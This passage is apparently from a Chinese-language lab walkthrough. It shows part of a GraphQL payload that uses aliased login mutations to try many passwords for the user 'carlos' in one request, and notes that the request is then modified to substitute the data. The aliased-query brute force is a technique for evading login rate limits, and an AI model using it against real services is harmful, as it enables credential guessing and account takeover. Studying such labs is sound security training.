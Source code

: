 ```plain
    }


bruteforce95:login(input:{password: "monitor", username: "carlos"}) {
        token
        success
    }


bruteforce96:login(input:{password: "monitoring", username: "carlos"}) {
        token
        success
    }


bruteforce97:login(input:{password: "montana", username: "carlos"}) {
        token
        success
    }


bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }


bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }
```

随后先更改请求报文：  
[![](assets/1708485015-e3507fab0aa5a5098b47208c3d5348bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220155201-ee2c1802-cfc4-1.png)  
进行数据的替换操作：  